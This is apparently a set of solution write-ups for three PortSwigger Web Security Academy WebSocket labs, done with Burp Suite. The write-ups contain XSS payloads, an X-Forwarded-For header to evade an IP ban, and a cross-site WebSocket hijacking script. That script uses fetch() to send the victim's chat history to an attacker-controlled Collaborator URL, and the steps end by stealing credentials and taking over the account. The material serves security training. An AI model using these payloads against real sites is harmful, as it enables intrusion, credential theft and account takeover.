 # WebSockets

## Manipulating WebSocket messages to exploit vulnerabilities

### Description

[This online shop](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities) has a live chat feature implemented using WebSockets. Chat messages that you submit are viewed by a support agent in real time. 

### Proof of concept

1. Click "Live chat" and send a chat message. 
2. In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3. Using your browser, send a new message containing a `<` character. In Burp Proxy, find the corresponding WebSocket message and observe that the `<` has been HTML-encoded by the client before sending.
4. Ensure that Burp Proxy is configured to intercept WebSocket messages, then send another chat message.
5. Edit the intercepted message to contain the following payload: 

```text
<img src=1 onerror='alert(1)'>
```

6. Observe that an alert is triggered in your browser. This will also happen in the support agent's browser.

### Exploitability

An attacker will need to use a WebSocket message to trigger an `alert()` popup in the support agent's browser. 

----

## Manipulating the WebSocket handshake to exploit vulnerabilities

### Description

[This online shop](https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities) has a live chat feature implemented using WebSockets. It has an aggressive but flawed XSS filter. 

### Proof of concept

1. Click "Live chat" and send a chat message.
2. In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3. Right-click on the message and select "Send to Repeater".
4. Edit and resend the message containing a basic XSS payload, such as:

```text
<img src=1 onerror='alert(1)'>
```

5. Observe that the attack has been blocked, and that your WebSocket connection has been terminated. 
6. Click "Reconnect", and observe that the connection attempt fails because your IP address has been banned.
7. Add the following header to the handshake request to spoof your IP address:

```text
X-Forwarded-For: 1.1.1.1
```

8. Click "Connect" to successfully reconnect the WebSocket. 
9. Send a WebSocket message containing an obfuscated XSS payload, such as:

```text
<img src=1 oNeRrOr=alert`1`> 
```

### Exploitability

An attacker will need to use a WebSocket message to trigger an `alert()` popup in the support agent's browser. 

----

## Cross-site WebSocket hijacking

### Description

[This online shop](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) has a live chat feature implemented using WebSockets. 

### Proof of concept

1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
5. Right-click on the handshake request and select "Copy URL".
6. In your browser, go to the exploit server and paste the following template into the "Body" section:

```text
<script>
  var ws = new WebSocket('wss://websocket-url');
  ws.onopen = function() {
    ws.send("READY");
  };
  ws.onmessage = function(event) {
    fetch('https://collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
  };
</script>
```

7. Replace ``websocket-url`` with the URL from the WebSocket handshake (``lab-id.web-security-academy.net/chat``). Make sure you change the protocol from ``https://`` to ``wss://``. Replace ``collaborator-url`` with a payload generated by Burp Collaborator Client.
8. Click "View exploit".
9. Poll for interactions using Burp Collaborator client. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
11. Poll for interactions using Burp Collaborator client again. Observe that you've received more HTTP interactions containing the victim's chat history. Examine the messages and notice that one of them contains the victim's username and password.
12. Use the exfiltrated credentials to log in to the victim user's account.

### Exploitability

An attacker will need to use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this to gain access to their account. 


